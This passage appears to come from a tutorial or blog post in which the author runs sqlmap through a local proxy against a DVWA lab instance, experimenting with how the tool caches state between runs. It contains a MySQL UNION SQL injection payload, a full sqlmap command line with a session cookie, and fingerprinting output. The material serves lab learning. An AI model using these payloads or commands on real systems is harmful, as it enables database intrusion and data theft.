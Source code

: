         Type: UNION query
        Title: MySQL UNION query (NULL) - 2 columns
        Payload: id=Shamus' UNION ALL SELECT NULL,CONCAT(0x7170766f71,0x72775441686f75625a6c,0x71747a6c71)#&Submit=Submit
    ---
    [13:37:57] [INFO] testing MySQL
    [13:37:57] [WARNING] reflective value(s) found and filtering out
    [13:37:57] [INFO] confirming MySQL
    [13:37:58] [INFO] the back-end DBMS is MySQL
    [13:37:58] [INFO] fetching banner
    web server operating system: Linux Ubuntu 10.04 (Lucid Lynx)
    web application technology: PHP 5.3.2, Apache 2.2.14
    back-end DBMS operating system: Linux Ubuntu
    back-end DBMS: MySQL >= 5.0.0
    banner:    '5.1.41-3ubuntu12.6-log'
    [13:37:58] [INFO] fetched data logged to text files under 'C:\Users\Felix Ingram\Documents\development\sqlmap\output\192.168.253.133'

    [*] shutting down at 13:37:58

Wait. What?

So when we pass in the request, we can grab the banner in only a handful of
requests. Let's try our original command again:

    [6+]:>  py -2 .\sqlmap.py --proxy=http://127.0.0.1:8080 -u "http://192.168.253.133/dvwa/vulnerabilities/sqli/?id=Shamus&Submit=Submit#"
    -p id --dbms=mysql --cookie="PHPSESSID=mc2m3bbdca59a8k3vd81f7kqd1" --banner

    sqlmap/1.0-dev-991cafc - automatic SQL injection and database takeover tool
    http://sqlmap.org

    ... snip ...

    [14:01:41] [INFO] the back-end DBMS is MySQL
    [14:01:41] [INFO] fetching banner
    web server operating system: Linux Ubuntu 10.04 (Lucid Lynx)
    web application technology: PHP 5.3.2, Apache 2.2.14
    back-end DBMS operating system: Linux Ubuntu
    back-end DBMS: MySQL >= 5.0.0
    banner:    '5.1.41-3ubuntu12.6-log'

So we can retrieve things using the full command line version. One of the
reasons for this is that sqlmap remembers some state information between runs.
For the sake of experimenting, let's delete all of the cached information and
run things again:


    [7+]:> rm .\output\*

    Confirm
    The item at C:\Users\Felix Ingram\Documents\development\sqlmap\output\192.168.253.133 has
    children and the Recurse parameter was not specified. If you continue, all children will be
    removed with the item. Are you sure you want to continue?
    [Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "Y"): a
